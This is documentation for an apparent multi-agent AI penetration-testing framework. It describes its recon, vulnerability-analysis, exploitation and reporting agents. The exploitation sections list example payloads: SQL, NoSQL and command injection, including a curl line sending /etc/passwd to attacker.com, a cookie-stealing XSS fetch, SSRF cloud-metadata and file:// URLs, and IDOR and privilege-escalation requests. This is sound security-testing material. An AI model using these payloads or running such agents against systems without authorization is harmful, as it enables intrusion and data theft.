

Shannon employs 13 specialized AI agents, each designed for a specific phase of penetration testing. This page documents each agent's role, capabilities, and deliverables.

## Agent Registry

All agents are defined in `src/session-manager.ts:14` as the single source of truth:

```typescript
const AGENTS: Record<AgentName, AgentDefinition> = {
  // 13 agent definitions
}
```

Each agent includes:
- **Name** — Unique identifier (e.g., `injection-vuln`)
- **Display Name** — Human-readable label
- **Prerequisites** — Which agents must complete first
- **Prompt Template** — Located in `prompts/`
- **Deliverable Filename** — Output artifact for validation
- **Model Tier** — Small/Medium/Large for cost optimization

## Phase 1: Reconnaissance Agents

### Pre-Recon Agent

<ParamField path="name" type="string" default="pre-recon">
  Agent identifier
</ParamField>

<ParamField path="displayName" type="string" default="Pre-recon agent">
  Human-readable name
</ParamField>

<ParamField path="modelTier" type="string" default="large">
  Uses Claude Opus for deep reasoning
</ParamField>

<ParamField path="promptTemplate" type="string" default="pre-recon-code">
  Template: `prompts/pre-recon-code.txt`
</ParamField>

**Purpose:** Initial attack surface mapping through external scans and source code analysis.

**Capabilities:**
<CardGroup cols={2}>
  <Card title="External Scanning" icon="radar">
    - Nmap port scanning
    - Subfinder subdomain enumeration
    - WhatWeb technology fingerprinting
    - Schemathesis API schema analysis
  </Card>
  <Card title="Static Analysis" icon="code">
    - File structure analysis
    - Technology stack detection
    - Entry point discovery
    - Data flow identification
  </Card>
</CardGroup>

**Deliverable:** `code_analysis_deliverable.md`

**Validator:** Checks for deliverable file existence at `src/session-manager.ts:186`

**MCP Assignment:** `playwright-agent1` (minimal browser use)

---

### Recon Agent

<ParamField path="name" type="string" default="recon">
  Agent identifier
</ParamField>

<ParamField path="prerequisites" type="array" default="['pre-recon']">
  Requires pre-recon completion
</ParamField>

<ParamField path="modelTier" type="string" default="medium">
  Uses Claude Sonnet (default tier)
</ParamField>

<ParamField path="promptTemplate" type="string" default="recon">
  Template: `prompts/recon.txt`
</ParamField>

**Purpose:** Live application exploration via browser automation to correlate code analysis with runtime behavior.

**Capabilities:**
<Tabs>
  <Tab title="Authentication">
    - Form-based login with TOTP support
    - SSO/OAuth flows (Google, GitHub, etc.)
    - API token authentication
    - HTTP Basic Authentication
    
    Uses `prompts/shared/login-instructions.txt` template.
  </Tab>
  
  <Tab title="Exploration">
    - Authenticated route discovery
    - API endpoint testing
    - Form submission workflows
    - JavaScript framework detection
    - Client-side routing analysis
  </Tab>
  
  <Tab title="Correlation">
    - Maps code findings to live behavior
    - Validates static analysis hypotheses
    - Discovers hidden endpoints
    - Tests authentication boundaries
  </Tab>
</Tabs>

**Deliverable:** `recon_deliverable.md`

**Validator:** `src/session-manager.ts:192`

**MCP Assignment:** `playwright-agent2` (heavy browser automation)

## Phase 2: Vulnerability Analysis Agents

All 5 vuln agents run in parallel with configurable concurrency.

### Injection Vuln Agent

<ParamField path="name" type="string" default="injection-vuln">
  Identifies SQL/NoSQL/Command injection vulnerabilities
</ParamField>

<ParamField path="prerequisites" type="array" default="['recon']">
  Requires reconnaissance data
</ParamField>

<ParamField path="promptTemplate" type="string" default="vuln-injection">
  Template: `prompts/vuln-injection.txt`
</ParamField>

**Target Vulnerabilities:**
- SQL Injection (SQLi)
- NoSQL Injection
- Command Injection (OS Command Injection)
- LDAP Injection
- XML Injection (XXE)
- Template Injection (SSTI)

**Analysis Approach:**
<Steps>
  <Step title="Source Identification">
    Find user-controlled inputs: query params, POST bodies, headers, file uploads
  </Step>
  <Step title="Sink Detection">
    Locate dangerous operations:
    - `db.query()`, `db.raw()` (SQL)
    - `exec()`, `spawn()`, `eval()` (Command)
    - Template rendering functions
  </Step>
  <Step title="Data Flow Tracing">
    Track input through:
    - Variable assignments
    - Function parameters
    - Sanitization/validation functions
  </Step>
  <Step title="Hypothesis Generation">
    Create exploitation queue with:
    - Vulnerability description
    - Payload suggestions
    - Severity assessment
    - File/line references
  </Step>
</Steps>

**Deliverables:**
1. `injection_analysis_deliverable.md` — Analysis report
2. `injection_queue.json` — Exploitation queue for Phase 4

**Validator:** `createVulnValidator('injection')` at `src/session-manager.ts:198`

**MCP Assignment:** `playwright-agent1`

---

### XSS Vuln Agent

<ParamField path="name" type="string" default="xss-vuln">
  Identifies Cross-Site Scripting vulnerabilities
</ParamField>

**Target Vulnerabilities:**
- Reflected XSS
- Stored XSS
- DOM-based XSS
- mXSS (Mutation XSS)

**Analysis Focus:**
- User input rendered in HTML/JavaScript contexts
- Insufficient output encoding/escaping
- DOM manipulation with `innerHTML`, `outerHTML`
- JavaScript template literals with user data
- Content-Security-Policy bypasses

**Deliverables:**
1. `xss_analysis_deliverable.md`
2. `xss_queue.json`

**Validator:** `createVulnValidator('xss')` at `src/session-manager.ts:199`

**MCP Assignment:** `playwright-agent2`

---

### Auth Vuln Agent

<ParamField path="name" type="string" default="auth-vuln">
  Identifies Broken Authentication vulnerabilities
</ParamField>

**Target Vulnerabilities:**
- Authentication bypass
- Weak password policies
- JWT vulnerabilities (alg:none, weak keys, kid injection)
- Session fixation
- Credential stuffing vectors
- MFA/2FA bypass
- Password reset flaws

**Analysis Focus:**
- Login endpoint logic
- JWT generation and validation
- Session token management
- Password reset workflows
- OAuth/SSO implementation flaws

**Deliverables:**
1. `auth_analysis_deliverable.md`
2. `auth_queue.json`

**Validator:** `createVulnValidator('auth')` at `src/session-manager.ts:200`

**MCP Assignment:** `playwright-agent3`

---

### SSRF Vuln Agent

<ParamField path="name" type="string" default="ssrf-vuln">
  Identifies Server-Side Request Forgery vulnerabilities
</ParamField>

**Target Vulnerabilities:**
- Full SSRF (HTTP/HTTPS)
- Blind SSRF
- DNS SSRF
- File-based SSRF (`file://` protocol)
- Cloud metadata access (AWS, GCP, Azure)

**Analysis Focus:**
- HTTP client usage (`axios`, `fetch`, `request`)
- URL parameters passed to HTTP libraries
- File read operations with user input
- DNS resolution with user-controlled hostnames
- Webhook/callback URL validation

**Deliverables:**
1. `ssrf_analysis_deliverable.md`
2. `ssrf_queue.json`

**Validator:** `createVulnValidator('ssrf')` at `src/session-manager.ts:201`

**MCP Assignment:** `playwright-agent4`

---

### Authz Vuln Agent

<ParamField path="name" type="string" default="authz-vuln">
  Identifies Broken Authorization vulnerabilities
</ParamField>

**Target Vulnerabilities:**
- IDOR (Insecure Direct Object Reference)
- Privilege escalation (horizontal and vertical)
- Missing function-level access control
- Mass assignment vulnerabilities
- Path traversal in authorization checks

**Analysis Focus:**
- Resource access patterns (user ID in URL/body)
- Role/permission checking logic
- Admin vs. user endpoint separation
- Object ownership validation
- API endpoint authorization middleware

**Deliverables:**
1. `authz_analysis_deliverable.md`
2. `authz_queue.json`

**Validator:** `createVulnValidator('authz')` at `src/session-manager.ts:202`

**MCP Assignment:** `playwright-agent5`

## Phase 3: Exploitation Agents

All 5 exploit agents run in parallel, pipelined with their corresponding vuln agents.

### Injection Exploit Agent

<ParamField path="name" type="string" default="injection-exploit">
  Exploits injection vulnerabilities from queue
</ParamField>

<ParamField path="prerequisites" type="array" default="['injection-vuln']">
  Requires injection analysis completion
</ParamField>

<ParamField path="promptTemplate" type="string" default="exploit-injection">
  Template: `prompts/exploit-injection.txt`
</ParamField>

**Exploitation Techniques:**

<AccordionGroup>
  <Accordion title="SQL Injection">
    - UNION-based extraction
    - Boolean-based blind SQLi
    - Time-based blind SQLi
    - Error-based SQLi
    - Stacked queries
    
    **Example Payloads:**
    ```sql
    ' UNION SELECT username, password FROM users--
    ' AND (SELECT SLEEP(5))--
    ' OR '1'='1
    ```
  </Accordion>
  
  <Accordion title="Command Injection">
    - Command chaining (`;`, `&&`, `||`)
    - Pipe operators (`|`)
    - Backtick execution
    - Subshell execution (`$()`)
    
    **Example Payloads:**
    ```bash
    127.0.0.1; cat /etc/passwd
    127.0.0.1 && whoami
    `curl attacker.com/exfil?data=$(cat /etc/passwd | base64)`
    ```
  </Accordion>
  
  <Accordion title="NoSQL Injection">
    - MongoDB operator injection (`$ne`, `$gt`)
    - JavaScript injection in MongoDB
    - Blind NoSQL extraction
    
    **Example Payloads:**
    ```json
    {"username": {"$ne": null}, "password": {"$ne": null}}
    {"username": "admin", "password": {"$regex": ".*"}}
    ```
  </Accordion>
</AccordionGroup>

**Deliverable:** `injection_exploitation_evidence.md`

**Validator:** `createExploitValidator('injection')` at `src/session-manager.ts:205`

**MCP Assignment:** `playwright-agent1` (reuses vuln agent's instance)

---

### XSS Exploit Agent

<ParamField path="name" type="string" default="xss-exploit">
  Exploits XSS vulnerabilities from queue
</ParamField>

**Exploitation Techniques:**

<Tabs>
  <Tab title="Reflected XSS">
    Execute payloads via URL parameters or form inputs:
    
    ```html
    <script>alert(document.cookie)</script>
    
    <svg onload=alert(1)>
    ```
    
    Verify execution in browser DOM using Playwright.
  </Tab>
  
  <Tab title="Stored XSS">
    Inject payloads via API endpoints or forms that persist:
    
    ```javascript
    // Via API
    POST /api/comments
    {"text": "<script>fetch('https://attacker.com?c='+document.cookie)</script>"}
    
    // Verify by navigating to page and checking DOM
    ```
  </Tab>
  
  <Tab title="DOM XSS">
    Exploit client-side JavaScript vulnerabilities:
    
    ```javascript
    // Target: element.innerHTML = location.hash
    https://example.com#
    ```
  </Tab>
</Tabs>

**Deliverable:** `xss_exploitation_evidence.md`

**Validator:** `createExploitValidator('xss')` at `src/session-manager.ts:206`

**MCP Assignment:** `playwright-agent2`

---

### Auth Exploit Agent

<ParamField path="name" type="string" default="auth-exploit">
  Exploits authentication vulnerabilities from queue
</ParamField>

**Exploitation Techniques:**

<Steps>
  <Step title="JWT Attacks">
    - **alg:none bypass:** Remove signature validation
    - **Algorithm confusion:** Switch RS256 to HS256
    - **Weak secret brute force:** Dictionary attacks on HMAC keys
    - **kid injection:** Path traversal in key ID parameter
  </Step>
  
  <Step title="SQL Injection in Auth">
    Bypass login via injection:
    ```sql
    username: admin'--
    password: (anything)
    ```
  </Step>
  
  <Step title="Session Attacks">
    - Session fixation
    - Cookie manipulation
    - Token prediction
  </Step>
  
  <Step title="Password Reset Bypass">
    - Token leakage in referrer
    - Insufficient entropy in reset tokens
    - Email parameter manipulation
  </Step>
</Steps>

**Deliverable:** `auth_exploitation_evidence.md`

**Validator:** `createExploitValidator('auth')` at `src/session-manager.ts:207`

**MCP Assignment:** `playwright-agent3`

---

### SSRF Exploit Agent

<ParamField path="name" type="string" default="ssrf-exploit">
  Exploits SSRF vulnerabilities from queue
</ParamField>

**Exploitation Techniques:**

<AccordionGroup>
  <Accordion title="Cloud Metadata">
    Access cloud provider metadata services:
    
    ```bash
    # AWS
    http://169.254.169.254/latest/meta-data/
    http://169.254.169.254/latest/user-data/
    
    # GCP
    http://metadata.google.internal/computeMetadata/v1/
    
    # Azure
    http://169.254.169.254/metadata/instance?api-version=2021-02-01
    ```
  </Accordion>
  
  <Accordion title="Internal Network Scanning">
    Probe internal services:
    
    ```bash
    # Port scanning
    http://10.0.0.1:22
    http://10.0.0.1:3306
    http://10.0.0.1:6379
    
    # Service discovery
    http://localhost:8080/admin
    http://internal-api.local/
    ```
  </Accordion>
  
  <Accordion title="File Protocol">
    Read local files:
    
    ```bash
    file:///etc/passwd
    file:///proc/self/environ
    file:///var/www/html/config.php
    ```
  </Accordion>
</AccordionGroup>

**Deliverable:** `ssrf_exploitation_evidence.md`

**Validator:** `createExploitValidator('ssrf')` at `src/session-manager.ts:208`

**MCP Assignment:** `playwright-agent4`

---

### Authz Exploit Agent

<ParamField path="name" type="string" default="authz-exploit">
  Exploits authorization vulnerabilities from queue
</ParamField>

**Exploitation Techniques:**

<Tabs>
  <Tab title="IDOR">
    Access other users' resources:
    
    ```bash
    # Original request
    GET /api/users/123/profile
    
    # IDOR attempt
    GET /api/users/456/profile
    GET /api/users/789/orders
    
    # Parameter pollution
    GET /api/users/123/profile?user_id=456
    ```
  </Tab>
  
  <Tab title="Privilege Escalation">
    Vertical escalation:
    
    ```bash
    # Mass assignment
    PATCH /api/users/123
    {"role": "admin", "is_admin": true}
    
    # Role manipulation
    POST /api/users/123/promote
    {"new_role": "administrator"}
    ```
    
    Horizontal escalation:
    
    ```bash
    # Modify other user's data
    PUT /api/users/456/email
    {"email": "attacker@example.com"}
    ```
  </Tab>
  
  <Tab title="Missing Access Control">
    Access admin endpoints:
    
    ```bash
    # Direct admin access
    GET /admin/dashboard
    GET /api/admin/users
    DELETE /api/admin/users/456
    
    # Hidden debug endpoints
    GET /debug/config
    GET /internal/metrics
    ```
  </Tab>
</Tabs>

**Deliverable:** `authz_exploitation_evidence.md`

**Validator:** `createExploitValidator('authz')` at `src/session-manager.ts:209`

**MCP Assignment:** `playwright-agent5`

## Phase 4: Reporting Agent

### Report Agent

<ParamField path="name" type="string" default="report">
  Generates executive security report
</ParamField>

<ParamField path="prerequisites" type="array">
  Requires all 5 exploit agents: `['injection-exploit', 'xss-exploit', 'auth-exploit', 'ssrf-exploit', 'authz-exploit']`
</ParamField>

<ParamField path="modelTier" type="string" default="small">
  Uses Claude Haiku (cost-optimized for summarization)
</ParamField>

<ParamField path="promptTemplate" type="string" default="report-executive">
  Template: `prompts/report-executive.txt`
</ParamField>

**Purpose:** Compile all exploitation evidence into a professional, actionable penetration test report.

**Process:**

<Steps>
  <Step title="Artifact Collection">
    Function: `assembleFinalReport()` in `src/services/reporting.ts`
    
    Gathers:
    - All 5 exploitation evidence files
    - Reconnaissance deliverable
    - Pre-recon code analysis
  </Step>
  
  <Step title="Concatenation">
    Merges all evidence into a single document with section headers
  </Step>
  
  <Step title="AI Refinement">
    The report agent adds:
    - Executive summary
    - Risk prioritization
    - Remediation roadmap
    - Removes hallucinated/false content
    - Formats for readability
  </Step>
  
  <Step title="Metadata Injection">
    Function: `injectModelIntoReport()` in `src/services/reporting.ts`
    
    Appends:
    - Model version (e.g., `claude-sonnet-4-6`)
    - Generation timestamp
    - Shannon version
  </Step>
</Steps>

**Deliverable:** `comprehensive_security_assessment_report.md`

**Validator:** Checks for deliverable existence at `src/session-manager.ts:212`

**MCP Assignment:** `playwright-agent3` (minimal browser use)

## Agent Execution Lifecycle

Every agent follows the same lifecycle managed by `AgentExecutionService` (`src/services/agent-execution.ts`):

<Steps>
  <Step title="Initialization">
    - Load agent definition from registry
    - Create audit session
    - Initialize git checkpoint
  </Step>
  
  <Step title="Prompt Loading">
    - Read template from `prompts/`
    - Substitute variables (URL, config, login instructions)
    - Save snapshot to `prompts/{agent}.txt` for reproducibility
  </Step>
  
  <Step title="Execution">
    - Start agent via `claude-executor.ts`
    - Heartbeat loop (2s intervals) to Temporal
    - Stream logs to `agents/{agent}_{attempt}.json`
  </Step>
  
  <Step title="Validation">
    - Run agent validator from `AGENT_VALIDATORS`
    - Check deliverable existence and queue validation
    - Retry up to 3 times on validation failure
  </Step>
  
  <Step title="Checkpointing">
    - Git commit deliverables
    - Update `session.json` with metrics
    - Mark agent as completed
  </Step>
</Steps>

## Agent Dependencies (DAG)



**Managed by:** `src/session-manager.ts:14` (prerequisites field)

## Adding Custom Agents

To add a new vulnerability type:

<Steps>
  <Step title="Define Agent">
    Add to `AGENTS` registry in `src/session-manager.ts`:
    
    ```typescript
    'newtype-vuln': {
      name: 'newtype-vuln',
      displayName: 'New Vulnerability Type',
      prerequisites: ['recon'],
      promptTemplate: 'vuln-newtype',
      deliverableFilename: 'newtype_analysis_deliverable.md',
    },
    ```
  </Step>
  
  <Step title="Create Prompt">
    Add template at `prompts/vuln-newtype.txt`
  </Step>
  
  <Step title="Add Activity Wrapper">
    In `src/temporal/activities.ts`:
    
    ```typescript
    export async function runNewtypeVulnAgent(
      input: ActivityInput
    ): Promise<AgentMetrics> {
      return runAgentActivity('newtype-vuln', input);
    }
    ```
  </Step>
  
  <Step title="Register in Workflow">
    Add to parallel execution in `src/temporal/workflows.ts:258`
  </Step>
</Steps>

<Info>
  See the [Custom Agents Guide](/development/adding-agents) for a complete walkthrough.
</Info>

## Next Steps

<CardGroup cols={2}>
  <Card title="Pipeline Phases" icon="arrow-progress" href="/concepts/pipeline-phases">
    Understand the 5-phase execution flow
  </Card>
  <Card title="Architecture" icon="diagram-project" href="/concepts/architecture">
    Explore the multi-agent system design
  </Card>
  <Card title="Workspaces" icon="folder-tree" href="/concepts/workspaces">
    Learn about resume and git checkpointing
  </Card>
  <Card title="Prompts" icon="file-lines" href="/customization/prompts">
    Customize agent behavior via templates
  </Card>
</CardGroup>
